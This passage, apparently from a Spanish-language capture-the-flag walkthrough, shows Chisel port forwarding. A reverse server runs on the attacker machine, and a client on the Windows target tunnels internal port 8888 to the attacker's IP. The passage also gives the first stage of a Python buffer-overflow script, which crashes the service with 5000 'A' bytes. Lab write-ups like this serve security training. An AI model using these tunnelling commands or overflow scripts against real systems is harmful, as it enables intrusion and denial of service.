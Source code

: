 Como este servicio es interno, el puerto 8888 no esta visible desde el exterior. Aqui utilizaremos **Chisel.exe** para hacer un port forwarding.
Descargamos manualmente **Chisel y 7zip**. 

1. En la maquina de attackante

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ./chisel server --reverse --port 1234
    ```

1. En la maquina Windows

    ```bash
    ./chisel.exe client 192.168.0.16:1234 R:8888:127.0.0.1:8888
    ```


### Script en pyton para ejecutar el BufferOverflow {-}

En la maquina de atacante, nos creamos un script en python que nos permitte ejecutar el BufferOverflow. Este Script ira evolucionando
durante las etapas.

#### Etapa 1 : Denial Of Service {-}

El BufferOverflow viene de un error de sanitizacion durante el envio de una data que se espera a recivir un tamanio definido de data y sobre el
cual si un atcante decide enviarle mas data de lo previsto, hace petar el servicio. En el siguiente script vamos a enviar al servicio unas 5000 **A**
de data para ver si el servicio cae.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"A" * 5000

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```
